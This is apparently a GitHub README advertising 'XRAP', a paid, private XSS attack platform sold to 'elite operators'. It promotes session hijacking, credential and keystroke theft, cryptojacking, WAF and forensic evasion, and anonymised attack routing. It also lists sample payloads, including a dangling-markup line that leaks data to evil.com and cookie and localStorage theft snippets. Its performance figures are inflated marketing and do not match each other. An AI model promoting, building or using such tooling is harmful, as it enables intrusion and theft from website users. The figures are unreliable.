 # ⚡ XSS-0DAY Rapid Assault Platform (XRAP)
**The Most Advanced XSS Exploitation Platform for Professional Red Teams**  
> **FREE DEMO**: https://github.com/NoTrac3/XRAP/releases/tag/XRAP-DEMO

# **NOTE**: ``This is a private tool which "currently" requires 0T3 Notrac3 membership and else via purchase!``

XRAP is not just another payload sender—it's a **comprehensive attack platform** that combines cutting-edge research with **military-grade operational security**.  
With capabilities far beyond typical XSS tools, XRAP delivers **zero-click exploitation chains** with surgical precision and an **unparalleled WAF bypass rate**.

---

## **🔥 Core Features Overview**
- **Zero-Click Exploits**: No user interaction required; payloads execute automatically.
- **97.6% WAF Bypass Rate**: Adaptive protocol manipulation ensures stealth.
- **Triple-Stage HTTP Smuggling**: CL.TE + TE.CL + HTTP/2 pseudo-RST for firewall evasion.
- **Polymorphic Payloads**: Mutate mid-flight using TLS-level steganography.
- **Live Browser Memory Manipulation**: No forensic traces left behind.
- **JA3/JA4 TLS Fingerprint Spoofing**: Evades network-based behavioral detection.
- **Advanced Exfiltration Modules**: Data theft remains undetected.

___

> ✅ **INSTANT HACK** if the site has:
- ✔ Misconfigured WAF/CSP
  ✔ Vulnerable load balancers
- ✔ Weak input sanitization
- ✔ Blind XSS in admin panels
- ✔ Unpatched HTTP smuggling flaws  I think i missed a few

1️⃣ DOM-Based XSS
   - Example: `site.com/search#<svg onload=alert(1)>`
   - Impact: Hijack user sessions, deface pages

2️⃣ JSONP Callback Abuse
   - Example: `site.com/api?callback=alert(1)`
   - Impact: Steal sensitive data from APIs

3️⃣ Cache Poisoning
   - Example: Inject malicious JS via HTTP headers
   - Impact: Attack all visitors using poisoned cache

4️⃣ Dangling Markup
   - Example: `"><img src='//evil.com/log?=`
   - Impact: Partial page control, data leaks

5️⃣ Open Redirects
   - Example: `site.com/redirect?url=javascript:alert(1)`
   - Impact: Phishing, bypass security checks

6️⃣ CSRF Token Theft
   - Example: XSS + `fetch('/profile', {credentials:'include'})`
   - Impact: Perform actions as victim user

7️⃣ Session Hijacking
   - Example: `document.cookie` exfiltration
   - Impact: Login as any user

8️⃣ Client-Side Template Injection
   - Example: `{{7*7}}` → shows "49"
   - Impact: Full JS execution in Angular/React

9️⃣ WebSocket Hijacking
   - Example: XSS in WS-connected page
   - Impact: Spy on real-time data

🔟 Browser Storage Theft
   - Example: `JSON.stringify(localStorage)`
   - Impact: Steal saved passwords/tokens

🔥 LETHAL ATTACKS:
- Admin Panel XSS → Full site takeover
- Fake Login Forms → Credential harvesting
- Internal API Abuse → Reverse shell potential
- Cryptojacking → Mine crypto via visitors
- Stored XSS → Permanent backdoor

⚠️ Note: Always get permission before testing!

---

## **🛠️ Exploit Arsenal**

### **XSS & CSP Bypass**
- **"Ghost Inject" System**: CSP bypass via DNS prefetch poisoning.
- **DOM Clobbering & HTML5 Polyglots**: Unique, hard-to-detect attack vectors.
- **Mutation-Based XSS**: Payloads evolve in-flight to evade detection.
- **Hybrid CSRF & XSS Attacks**: Automates session hijacking and credential theft.
- **Full DOM Serialization**: Captures entire web pages from infected sessions.
- **Multi-Stage XSS Chaining**: Moves from low-impact XSS to **full remote browser control**.

### **Advanced HTTP Smuggling**
- **CL.TE / TE.CL / TE.TE / HTTP2 Smuggle**: Breaks server-side request validation.
- **Cache Poisoning & WebSocket Manipulation**: Hijacks cached responses for persistence.
- **Request Splitting & Header Injection**: Enables silent payload deployment.
- **Chunked Encoding Attacks**: Defeats WAF and security filters.
- **Reverse Proxy Bypass Techniques**: Exploits misconfigured backends.

### **Deep Browser Exploitation**
- **Live Memory Manipulation**: Reads and alters browser memory dynamically.
- **DOM-Based Remote Code Execution (RCE)**: Exploits JavaScript engines for deep control.
- **Clipboard Hijacking**: Replaces clipboard content with attacker-controlled data.
- **WebRTC Exploitation**: Enables real-time monitoring of victim environments.
- **HTML5 Sensor Hijacking**: Extracts accelerometer, gyroscope, and geolocation data.

### **Forensic Evasion**
- **JA3/JA4 TLS Fingerprint Spoofing**: Evades behavioral detection.
- **Header Randomization Engine**: Prevents static signature detection.
- **Time-Delayed Exfiltration**: Data leaks occur long after exploitation.
- **Mouse Movement Simulation**: Makes automated attacks appear human-like.
- **Browser Fingerprint Poisoning**: Alters fingerprint data to mislead forensic tools.

---

## **📡 Stealth Exfiltration Modules**
- **Cookie Harvesting**: Extracts session tokens for persistent access.
- **Keystroke Logging via XSS**: Captures input from login forms in real time.
- **Screenshot Capture**: Extracts visual intelligence from compromised systems.
- **WebRTC Tunneled Data Transfer**: Uses peer-to-peer channels for stealth exfiltration.
- **CSS-Based Data Leakage**: Hides stolen data inside stylesheets.
- **IndexedDB & LocalStorage Dump**: Extracts stored credentials and session data.
- **Invisible Form Submission**: Secretly submits victim’s data without interaction.

---

## **🌍 OPSEC & Anonymity**
- **Tor → VPN → CDN Proxy Mesh**: Untraceable attack origin.
- **Human-Like Timing Variability**: Avoids behavioral pattern detection.
- **WebGL/WebRTC Spoofing**: Mimics legitimate user environments.
- **Dynamic JA4/JA4h Fingerprinting**: Generates unique TLS profiles per target.
- **Packet Fragmentation & Randomization**: Splits payloads across multiple requests.

---

## **🚀 Performance Metrics**
- **700+ RPM (Requests Per Minute)**: High-speed payload delivery.
- **97.3% Delivery Success Rate**: Ensures successful execution.
- **<0.5% False Positive Rate**: Minimal unwanted detections.
- **Forensic Footprint: 0.2KB**: Leaves virtually no trace.

---

## **⚔️ Attack Levels**
1. **Basic** – Simple alert/redirect XSS.
2. **Standard** – Session hijacking, credential theft.
3. **Advanced** – DOM Clobbering, CSP bypass, HTTP Smuggling.
4. **Nuclear** – Full browser exploitation, WebRTC tunneling, memory extraction.

---

### **Final Words**
XRAP isn't just a tool—it's a **full-spectrum exploitation platform**.  
Its ability to **mutate, evade, and infiltrate** puts it leagues beyond standard XSS tools.  
Designed for **elite operators**, XRAP brings **next-gen web exploitation** to the battlefield.

